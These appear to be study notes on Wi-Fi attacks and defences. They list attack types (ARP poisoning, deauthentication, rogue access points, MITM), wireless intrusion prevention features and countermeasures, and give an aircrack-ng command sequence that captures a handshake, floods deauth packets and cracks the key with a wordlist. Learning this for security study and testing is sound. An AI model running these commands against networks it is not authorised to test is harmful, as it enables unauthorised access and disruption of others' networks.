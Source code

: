 # Wi-Fi Discovery
	- Passive footprinting (sniffing packets)
	- Active footprinting (probing the AP to get information)

# Wireless Traffic Analysis
	- Capture the packets to reveal any information (SSID, authentication method, ...)

# Launch Attacks
	- ARP poisoning - Poisoning the ARP cache of Target machine, so that Attacker AP/Router send Victims Traffic to Attacker.
	- MAC spoofing - Using False MAC Address
  - Attacker Send De-Authentication request with spoofed
	- Rogue access point - Installing Rogue access point in secure network without authorization of network Admin.
	- MITM - Man-In-The-Middle Attacks.

# Wireless Security Tools
	# Wireless Intrusion Prevention System (WIPS)
		- Monitors the wireless network
		- Protect against unauthorized access points
		- Perform automatic intrusion prevention
		- Monitors the radio spectrum to prevents rogue access point and alert the network administrator
		- Can detect AP misconfiguration
		- Detect honeypots
		- Mitigate DoS

	# Wi-Fi Countermeasures
		- Change default parameters
		- Disable remote login to wireless devices
		- Use strong password - use passphrases
		- Use the latest standards (WPA2 AES)
		- MAC filtering
		- Update software often
		- Enable firewall
--------------------------------------------------------------------------------------------------------------
# Aircrack Suite
	- Airmon-ng
	- Airodump-ng
	- Aireplay-ng
	- Aircrack-ng

-> **airmon-ng start <Interface>**																					// Using that interface for network monitoring
-> **airmon-ng check kill**																									// Killing Processes which may cause trouble
-> **airodump-ng <interface>**																							// We need AP/Router MAC Address
-> **airodump-ng -w <file> --bssid <MAC Address> <Interface>**							// Start Capturing packets
-> **aireplay-ng --deauth 0 -a <Access Point BSSID> <interface>**						// We send DE-Authentication packets to Target Access Point
-> **aircrack-ng -w <Wordlist /dir> <Airdump Captured file /dir>**					// This will prompt us for Network Selection. Try to Crack Key with help of Wordlist
--------------------------------------------------------------------------------------------------------------
# WiFiPhisher
	This tool use phishing attack to get WiFi password.